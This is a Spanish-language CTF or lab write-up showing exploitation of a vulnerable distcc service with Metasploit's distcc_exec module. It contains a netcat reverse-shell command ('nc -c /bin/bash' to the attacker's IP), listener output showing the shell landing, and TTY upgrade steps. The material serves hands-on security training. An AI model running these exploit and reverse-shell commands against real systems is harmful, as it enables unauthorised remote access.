 ## Distcc Exploitation

Vamos a utilizar `metasploit` para ganar `acceso` a la máquina víctima

```
# msfconsole
msf6 >  use exploit/unix/misc/distcc_exec
[*] No payload configured, defaulting to cmd/unix/reverse_bash
msf6 exploit(unix/misc/distcc_exec) > set PAYLOAD cmd/unix/reverse_perl
PAYLOAD => cmd/unix/reverse_perl
msf6 exploit(unix/misc/distcc_exec) > set RHOST 10.129.251.62
RHOST => 10.129.251.62
msf6 exploit(unix/misc/distcc_exec) > set LHOST 10.10.16.15
LHOST => 10.10.16.15
msf6 exploit(unix/misc/distcc_exec) > run

[*] Started reverse TCP handler on 10.10.16.15:4444 
[*] Command shell session 1 opened (10.10.16.15:4444 -> 10.129.251.62:44845) at 2024-07-04 21:43:59 +0200

whoami
daemon
ls
5632.jsvc_up
vgauthsvclog.txt.0
vmware-root
```

Debido a que la consola que nos proporciona metasploit no es cómoda, vamos a obtener acceso mediante `netcat`. Para ello, ejecutamos este `payload` desde `metasploit`

```
nc -c /bin/bash 10.10.16.15 443
```

Nos ponemos en `escucha` desde nuestro equipo mediante `netcat`

```
# nc -nlvp 443                                
listening on [any] 4444 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.251.62] 36954
bash: cannot set terminal process group (1027): Inappropriate ioctl for device
bash: no job control in this shell
daemon@lame:/tmp$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```